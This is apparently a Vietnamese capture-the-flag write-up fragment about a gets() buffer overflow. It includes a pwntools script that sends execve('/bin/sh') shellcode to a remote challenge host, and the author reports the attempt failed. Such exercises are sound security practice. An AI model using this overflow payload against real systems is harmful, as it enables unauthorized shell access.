 ```c 
{
    char buf[256];

    puts("Please give us your feedback on the service!");
    gets(buf);
    puts("Bye!");
}
```
- Nhưng khó khăn khi challenge này không cho ta file thực thi để ta có thể biết được các biện pháp bảo vệ, các gadget,... gây ra rất nhiều khó khăn 
- Thử biên dịch file source code sang file thực thi để xem có thể khai thác được gì
- Thử viết script để chiếm shell 
```python=
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

#p = process('./chall')
p = remote('file_storage.pwnable.vn', 10000)

shell = asm('''
        mov rdi, 29400045130965551
        push rdi
        mov rdi, rsp
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 0x3b
        syscall
''')

payload = b'A'*264
payload += shell

p.sendlineafter(b'> ', b'exit')
p.sendlineafter(b'Please give us your feedback on the service!\n', payload)

p.interactive()
```
- Nhưng cũng không giải quyết được vấn đề
![alt text](image-3.png)
- Cũng không có cách nào để leak libc bởi vì không có file thực thi chương trình
  ..................................????